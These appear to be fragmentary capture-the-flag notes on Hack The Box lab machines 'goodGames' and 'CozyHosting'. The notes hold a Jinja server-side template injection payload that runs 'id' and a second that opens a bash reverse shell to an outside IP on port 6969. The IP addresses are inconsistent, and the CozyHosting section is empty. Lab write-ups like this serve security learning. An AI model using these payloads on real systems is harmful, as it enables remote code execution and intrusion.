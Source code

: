 ## Table of Contents

- [goodGames](#goodgames)
      - [Shell](#Shell)
      - [Execution POC](#Execution\POC)
- [CozyHosting](#cozyhosting)

10.10.11.156

# goodGames
Port: 80 Open http Apache httpd 2.4.51

echo '10.10.11.130 GoodGames.HTB' | sudo tee -a /etc/hosts 
10.10.11.130 GoodGames.HTB
200      GET      728l     2070w    33387c http://goodgames.htb/signup
#### Shell

I’ll use the same payload to get a reverse shell:

#### Execution POC

Just like in the recently retired box [Bolt](https://0xdf.gitlab.io/2022/02/19/htb-bolt.html#ssti), I can try a simple payload to see if I can get system execution via this SSTI:

```
{{ namespace.__init__.__globals__.os.popen('id').read() }}
```

```
{{ namespace.__init__.__globals__.os.popen('bash -c "bash -i >& /dev/tcp/10.10.16.7/6969 0>&1"').read() }}
```




# CozyHosting
10.10.11.230

